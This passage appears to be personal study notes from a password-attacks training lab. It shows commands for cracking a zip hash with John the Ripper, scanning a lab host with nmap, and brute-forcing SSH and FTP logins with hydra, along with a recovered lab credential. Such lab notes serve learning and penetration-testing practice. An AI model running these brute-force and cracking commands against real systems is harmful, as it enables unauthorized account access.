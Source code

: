 
* Create mutated PW list
  * download file from Resources
  *

      <figure><img src=".gitbook/assets/image (210).png" alt=""><figcaption></figcaption></figure>
* Crack the hash
  * `john --wordlist=mut_password.list zip.hash`
  *

      <figure><img src=".gitbook/assets/image (211).png" alt=""><figcaption></figcaption></figure>
* Obtain flag
  * `unzip Notes.zip && cat notes.txt`

## Password Management

### Password Policies

### Password Managers

## Skills Assessment

### PW Attacks lab - EASY

**Examine the first target and submit the root password as the answer.**

`nmap 10.129.104.203 -sVC`

* 21 FTP
* 22 SSH

`hydra -L username.list -P password.list ssh://10.129.189.211`

`hydra -L username.list -P password.list ftp://10.129.189.211`

mike:7777777

`ftp 10.129.189.211`
